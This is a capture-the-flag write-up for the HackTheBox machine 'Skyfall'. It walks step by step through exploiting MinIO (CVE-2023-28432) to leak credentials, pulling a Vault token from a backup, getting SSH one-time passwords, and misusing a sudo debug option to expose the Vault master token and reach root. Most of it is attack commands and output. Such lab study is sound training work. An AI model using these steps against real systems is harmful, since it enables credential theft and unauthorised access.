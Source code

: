```yaml
---
title: Skyfall
categories: [Red Team, HackTheBox]
tags: [web, fuzz, ffuf, subdomain, htb-insane, privesc]
author: Jenil
image: assets/images/HackTheBox-Skyfall/Skyfall.png
---
```


Nmap result:
```
Nmap scan report for 10.10.11.254
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.88 seconds

```


## User

Find demo.skyfall.htb subdomain with ffuf.

Use CVE-2023-28432 to get `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD` 

`mc alias set myminio http://prd23-s3-backend.skyfall.htb/ `<abbr title="MINIO_SECRET_KEY">5GrE1B2YGGyZzNHZaIww</abbr> <abbr title="MINIO_ROOT_PASSWORD"> GkpjkmiVmpFuL2d3oRx0</abbr> 

`mc ls --recursive --versions myminio  `

There are multiple version of home_backup.tar.gz with id.
`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz . ` 
  
Retrieve VAULT token in .bashrc file  
  
Exports paths  
  
```console
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"  
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"  
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```
  
install vault binary  
  
[https://developer.hashicorp.com/vault/install](https://developer.hashicorp.com/vault/install)  
  
```console
$ vault login
```
  
```console
$ curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"askyy"}'
```
OR
```console
$ vault write ssh/creds/dev_otp_key_role ip=10.10.11.254 username=askyy
```

Then,
```console
ssh askyy@10.10.11.254
```
Enter key as a password got from above vault comand.
  
## Root  

```console  
$ sudo -l 
  
User askyy may run the following commands on skyfall:  
(ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*  
(ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml 
```
  
```console
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```
  
this command create a file in user home dir but we dont have permission to read file  
  
so crete a new dir and new file its name is debug.log  
  
For example:-  
  
```console
$ mkdir /home/askyy/d1/debug.log
``` 
  
Run this command but output save my file  
```console
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d /home/askyy/d1/debug.log
```
  
```console
$ cat /home/askyy/d1/debug.log
2024/02/05 15:57:33 Initializing logger...  
2024/02/05 15:57:33 Reading: /etc/vault-unseal.yaml  
2024/02/05 15:57:33 Security Risk!  
2024/02/05 15:57:33 Master token found in config: <you-Got-Master-Token>  
2024/02/05 15:57:33 Found Vault node: [http://prd23-vault-internal.skyfall.htb](http://prd23-vault-internal.skyfall.htb/)  
2024/02/05 15:57:33 Check interval: 5s  
2024/02/05 15:57:33 Max checks: 5  
2024/02/05 15:57:33 Establishing connection to Vault...  
2024/02/05 15:57:33 Successfully connected to Vault: [http://prd23-vault-internal.skyfall.htb](http://prd23-vault-internal.skyfall.htb/)  
2024/02/05 15:57:33 Checking seal status  
2024/02/05 15:57:33 Vault sealed: false
```
  
After that get master token  
  
Export paths with master token  
  
```console
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"  
$ export VAULT_TOKEN="<your-master-token>"  
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"  
```
  
```console
$ curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"root"}' $VAULT_ADDR/v1/ssh/creds/admin_otp_key_role
```
OR

```console
$ vault write ssh/creds/admin_otp_key_role ip=10.10.11.254 username=root
```

```console
$ ssh root@10.10.11.254
```

And boom we got root on the machine!!!